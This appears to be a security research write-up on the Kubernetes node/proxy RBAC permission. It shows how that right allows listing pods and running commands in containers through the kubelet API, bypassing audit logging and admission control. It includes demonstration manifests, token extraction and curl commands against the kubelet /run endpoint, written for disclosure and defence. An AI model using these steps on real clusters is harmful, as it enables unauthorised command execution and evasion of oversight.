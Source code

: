 # Node/Proxy in Kubernetes RBAC

Some work done by [Rory McCune](https://twitter.com/raesene) and [Iain Smart](https://twitter.com/smarticu5) on a less well documented area of the Kubernetes/Kubelet API and RBAC rights

## Introduction

The node/proxy right in Kubernetes RBAC allows for users with it to get access to services running on cluster nodes *via* the API server, which can have consequences for security architecture.

Additionally with relation to the kubelet, this RBAC right could allow for effective privilege escalation and bypass of security controls such as Kubernetes audit logging and admission control.

Depending on the cluster's threat model, care should be taken before granting this right, either explicitly or via the use of wildcards (e.g. cluster-admin).

## Using the API server Proxy

Based on the [API server proxy documentation](https://kubernetes.io/docs/concepts/architecture/control-plane-node-communication/#apiserver-to-nodes-pods-and-services) we can see that it's possible to get access to other services running on cluster nodes, where they use HTTP or HTTPS. This feature can also be used to proxy to pods and services, but we're focusing on the node aspect.

This could allow users to access ports which they may not be able to reach directly due to network firewalls.

As an example, by using `kubectl proxy` we can show access to the kube-proxy health port on a cluster control plane node.

This will start a proxy of the API server on localhost, port 8001
```
kubectl proxy
Starting to serve on 127.0.0.1:8001
```

We can then curl to the API server using that and access the kube-proxy API.

```
curl http://127.0.0.1:8001/api/v1/nodes/kubeadm2nodemaster:10256/proxy/healthz
{"lastUpdated": "2022-01-27 12:05:32.176657288 +0000 UTC m=+1737670.978648438","currentTime": "2022-01-27 12:05:32.176657288 +0000 UTC m=+1737670.978648438"}
```

## Using the API server proxy for Kubelet access

In general access via the node proxy is unauthenticated, however when accessing the kubelet service, this access is credentialed. This access can be used to do things that the user may not have rights to do, for example listing all pods on the node. 

This excerpt is truncated for brevity!
```
curl http://127.0.0.1:8001/api/v1/nodes/kubeadm2nodemaster:10250/proxy/pods
{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"kubernetes-dashboard-78c79f97b4-bmhwj",
```

## Node/Proxy rights to the Kubelet API service.

The Kubernetes RBAC permission used here, has effectively dual-purpose. In addition to allowing access via the API server, it also provides direct access to the Kubelet API (the [kubelet documentation](https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet-authentication-authorization/#kubelet-authorization) covers the rights).

In general the kubelet is only accessed by the API server *however* it also supports webhook authentication and in a standard kubeadm cluster this is configured to use the API server as the AuthN/AuthZ service.

What this means is that a user with a valid client certificate or service account token, can authenticate to the kubelet API directly.

If that account has GET and CREATE rights to the proxy sub-resource of the node object, they can effectively execute commands in every pod on that node, directly via the Kublet API *without* hitting the Kubernetes API. the GET right controls read access operations (like pod listing) and the CREATE right controls write access operations (like command execution).

## Security Architecture Considerations

This architecture has a number of consequences from a security standpoint. First up any user with node/proxy rights can access node services with a source IP of the Kubernetes API server, bypassing any firewalls that may restrict access from their client location.

More seriously, any user with node/proxy rights can bypass any security controls put in place at the Kubernetes API server level. This includes audit logging (the kubelet does not support audit logging) and admission control (which is API server only).

## Possible Recommendations

- Ensure that only trusted service accounts and users have node/proxy rights. Note that any user with cluster-admin rights will have this as part of their rights.
- Consideration should be given to firewalling the kubelet port to white-listed addresses only (typically the API server and any other service which uses direct kubelet access (e.g. prometheus)), which could mitigate the direct access, although not the access via the API server
- Additional logging (e.g. CRI, verbose kubelet logs) could be useful to audit this access.


## Demonstrating direct Kubelet access with node/proxy

Here's a set of manifests that can be used to demonstrate the issue. Create the three manifests in a cluster of your choosing (where you can reach the kubelet port at a network level)

**ServiceAccount**
```yaml=
apiVersion: v1
kind: ServiceAccount
metadata:
  creationTimestamp: "2022-01-07T11:51:27Z"
  name: nodeproxy
  namespace: default
```

**ClusterRole**
```yaml=
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: nodeproxy
rules:
- apiGroups:
  - ""
  resources:
  - nodes
  - nodes/proxy
  verbs:
  - get
  - create
```

**ClusterRoleBinding**
```yaml=
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: nodeproxybinding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: nodeproxy
subjects:
- kind: ServiceAccount
  name: nodeproxy
  namespace: default
```

Then get the service account token and decode it (change the secret name below to match what got created in your cluster)

```shell=
kubectl get secrets nodeproxy-token-8hg5r -o jsonpath={.data.token} | base64 -d
```

Then you can use curl with that token to get the pod listing (add the token where it says TOKEN below)

```shell=
curl -k -H "Authorization: Bearer TOKEN" https://192.168.41.77:10250/pods
```

and if you want to you can execute commands in the containers with the general form below replace TOKEN with your secret value, NAMESPACE is the namespace of the pod, POD is the pod name and CONTAINER is the container name


```shell=
curl -k -H "Authorization: Bearer TOKEN" -XPOST https://192.168.41.77:10250/run/NAMESPACE/POD/CONTAINER -d "cmd=whoami"
```

## Related Issues

There's another, related, issue with the pod proxy, that [Kinvolk found in 2019](https://kinvolk.io/blog/2019/02/abusing-kubernetes-api-server-proxying/). This essentially showed that you could use the API server proxy to send traffic to arbitrary IP address via the API server, by repeatedly changing a pod's IP addres. Testing this shows it still works today.